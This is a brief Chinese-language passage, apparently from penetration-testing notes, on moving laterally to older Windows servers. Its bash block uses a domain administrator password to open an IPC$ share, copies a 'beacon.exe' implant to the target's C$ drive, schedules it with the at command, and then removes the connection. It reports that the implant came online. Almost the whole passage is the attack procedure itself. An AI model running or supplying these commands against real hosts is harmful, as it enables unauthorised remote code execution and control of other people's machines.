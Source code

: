 `Windows2012`以下系统可使用at命令创建计划任务执行木马上线

```bash
# 建立ipc连接：
net use \\192.168.91.178\ipc$ "Abcd1234" /user:god.org\administrator

# 拷贝执行文件到目标机器
copy beacon.exe \\192.168.91.178\c$

# 添加计划任务
at \\192.168.91.178 15:47 c:\beacon.exe

# 删除ipc
net use \IP\ipc$ /del
```

命令完成

![](img/2.png)

成功上线

![](img/3.png)
